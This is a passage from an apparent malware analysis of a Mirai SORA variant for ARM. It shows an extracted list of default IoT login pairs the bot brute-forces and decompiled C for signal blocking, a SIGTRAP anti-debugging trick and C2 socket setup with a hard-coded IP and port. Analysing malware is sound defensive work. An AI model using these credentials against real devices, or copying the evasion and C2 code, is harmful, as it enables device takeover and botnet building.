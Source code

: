 ```
MiraiCredentialExtractorSORAArm.java> ("admin" : "admin")
MiraiCredentialExtractorSORAArm.java> ("admin" : "pass")
MiraiCredentialExtractorSORAArm.java> ("admin" : "password")
MiraiCredentialExtractorSORAArm.java> ("admin" : "admin1234")
MiraiCredentialExtractorSORAArm.java> ("support" : "support")
MiraiCredentialExtractorSORAArm.java> ("mg3500" : "merlin")
MiraiCredentialExtractorSORAArm.java> ("daemon" : "")
MiraiCredentialExtractorSORAArm.java> ("ubnt" : "ubnt")
MiraiCredentialExtractorSORAArm.java> ("adm" : "")
MiraiCredentialExtractorSORAArm.java> Finished!
```

#### Signal handling and C2 address setup

The signal `SIGINT` (Ctrl + C) is blocked and the child signals are ignored. A signal handler is set for `SIGTRAP` which is an anti debugger feature. In the leaked version the code initializes the C2 address with a [fake IP](https://github.com/jgamblin/Mirai-Source-Code/blob/3273043e1ef9c0bb41bd9fcdc5317f7b797a2a94/mirai/bot/main.c#L106) and later also [raises](https://github.com/jgamblin/Mirai-Source-Code/blob/3273043e1ef9c0bb41bd9fcdc5317f7b797a2a94/mirai/bot/main.c#L114) a `SIGTRAP`. When a debugger is attached, it will catch the `SIGTRAP` and the malware will use the fake C2 server. If no debugger is attached, the C2 address will be overwritten with the real one.

```c
undefined4 mw_main(int param_1,undefined4 *param_2)

{
...
  sigset_t auStack_1fc;
...
  mw_sigemptyset(&auStack_1fc);
  mw_set_signal_mask(&auStack_1fc,SIGINT);
  mw_rt_sigprocmask(SIG_BLOCK,&auStack_1fc,0);
  mw_signal(SIGCHLD,SIG_IGN);
  mw_signal(SIGTRAP,FUN_0000f364);
...
```

```c
void FUN_0000f364(void)

{
  resolve_func = mw_setup_c2_connection;
  return;
}
```

In this variant this mechanism is a bit different since it uses the real C2 address and a fake port number first. They are overwritten later:


```c
undefined4 mw_main(int param_1,undefined4 *param_2)

{
...
  sockaddr_in_00020e48.sin_port._1_1_ = 0x17; // port: 0x1700 = 5888
  sockaddr_in_00020e48.sin_family._0_1_ = 2;
  sockaddr_in_00020e48.sin_addr.s_addr = 0xcffd079a; // IP: 154.7.253.207
  sockaddr_in_00020e48.sin_port._0_1_ = 0;
  sockaddr_in_00020e48.sin_family._1_1_ = 0;
  mw_init_encrypted_config();
  resolve_func = mw_setup_c2_connection;
...
```
